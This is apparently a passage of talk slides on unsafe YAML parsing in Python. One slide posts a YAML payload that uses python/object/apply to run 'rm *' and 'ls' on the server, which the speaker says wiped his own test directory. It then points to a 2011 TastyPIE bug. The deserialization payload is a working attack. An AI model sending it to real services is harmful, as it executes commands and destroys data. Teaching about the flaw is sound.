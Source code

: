 
### hey... I wonder if... 

Note: 

Famous last words?

---

## Parsing YAML 

POST /yaml

```yaml 
'first_name': Tom
'last_name': Eastman
'email_address': tom@eastman.net.nz
'goodbye': !!python/object/apply:os.system ['rm *']
'contents_of_cwd': !!python/object/apply:subprocess.check_output ['ls']
``` 

RESPONSE 

```py 
{'first_name': 'Tom',
'email_address': 'tom@eastman.net.nz',
'last_name': 'Eastman',
'goodbye': 0,
'contents_of_cwd': '\n'}
``` 

Note: 

C'mon, I had to try it, right?

And so yeah, I ended up re-writing my little web server after that call cleaned out the directory it was in.

---

### Surely this doesn't happen in real life? 

Note: 

That's so blatantly bad that surely this wouldn't actually happen in real life, right?

---
### November 2011 

![TastyPIE Bug Report](i/tastypie_1.png)
